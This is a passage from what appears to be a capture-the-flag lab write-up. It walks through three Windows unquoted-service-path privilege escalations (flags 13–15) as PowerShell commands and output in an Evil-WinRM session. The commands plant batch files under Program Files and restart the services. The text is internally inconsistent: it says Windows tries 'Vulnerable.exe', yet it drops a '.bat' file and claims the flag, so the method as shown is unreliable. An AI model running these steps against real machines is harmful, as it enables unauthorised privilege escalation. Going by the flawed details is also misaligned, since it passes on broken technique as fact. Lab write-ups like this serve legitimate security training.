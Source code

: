 **The Vulnerability**: Windows will try to execute:
1. `C:\Program.exe`
2. `C:\Program Files\Vulnerable.exe`
3. `C:\Program Files\Vulnerable Scanner\bin\scanner.bat`

**Exploitation**:
```powershell
# Create malicious executable
*Evil-WinRM* PS C:\> echo "echo FLAG > C:\flag_unquoted1.txt" > "C:\Program Files\Vulnerable.bat"

# Restart the service
*Evil-WinRM* PS C:\> Stop-Service VulnScanner -Force
*Evil-WinRM* PS C:\> Start-Service VulnScanner

# Check for flag
*Evil-WinRM* PS C:\> Get-Content C:\flag_unquoted1.txt
FLAG{E************0}
```

**🎯 FLAG 13 FOUND**: FLAG{E**********0} - Unquoted service path

### FLAG 14: CommonAppService Unquoted Path

**Location**: CommonAppService  
**Difficulty**: Medium

```powershell
# Similar process for CommonAppService
*Evil-WinRM* PS C:\> sc.exe qc CommonAppService

# Create exploit
*Evil-WinRM* PS C:\> echo "echo FLAG > C:\flag_unquoted2.txt" > "C:\Program Files\Common.bat"

# Trigger
*Evil-WinRM* PS C:\> Restart-Service CommonAppService -Force

*Evil-WinRM* PS C:\> Get-Content C:\flag_unquoted2.txt
FLAG{V***************8}
```

**🎯 FLAG 14 FOUND**: FLAG{V**********8} - Unquoted service path 2

### FLAG 15: VendorUpdater Unquoted Path

**Location**: VendorUpdater service  
**Difficulty**: Medium

```powershell
# For Program Files (x86)
*Evil-WinRM* PS C:\> echo "echo FLAG > C:\flag_unquoted3.txt" > "C:\Program Files (x86)\Vendor.bat"

*Evil-WinRM* PS C:\> Restart-Service VendorUpdater -Force

*Evil-WinRM* PS C:\> Get-Content C:\flag_unquoted3.txt
FLAG{J************0}
```
